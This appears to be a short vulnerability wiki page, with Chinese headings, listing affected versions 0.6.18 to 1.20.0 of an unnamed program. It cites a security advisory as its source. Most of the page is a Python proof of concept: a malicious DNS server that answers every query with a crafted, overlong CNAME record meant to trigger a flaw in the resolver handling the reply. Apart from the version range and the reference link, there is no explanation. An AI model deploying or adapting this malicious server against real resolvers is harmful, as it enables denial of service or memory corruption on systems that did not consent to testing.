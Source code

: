 <languages /> <translate>

影響版本
--------

</translate>

    0.6.18 - 1.20.0

POC
---

    from binascii import hexlify, unhexlify
    from socket import AF_INET, SOCK_DGRAM, socket
    from struct import unpack

    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(('0.0.0.0', 1053))

    while True:
        request, addr = sock.recvfrom(4096)
        print(b'<<< '+hexlify(request))
        ident = request[0:2]
        # find request
        nullptr = request.find(0x0,12)
        reqname = request[12:request.find(0x0,12)+1]
        reqtype = request[nullptr+1:nullptr+3]
        reqclass = request[nullptr+3:nullptr+5]
        print('name: %s, type: %s, class: %s' % (reqname, unpack('>H', reqtype), unpack('>H', reqclass)))
        # CNAME response
        response = request[0:2] + \
                   unhexlify('''81800001000100000000''') + \
                   reqname + reqtype + reqclass + \
                   unhexlify('c00c0005000100000e10000b18414141414141414141414141414141414141414141414141c004')
        print(b'>>> '+hexlify(response))
        sock.sendto(bytes(response), addr)

<translate>

參考
----

</translate> <https://github.com/x41sec/advisories/blob/master/X41-2021-002/poc.py>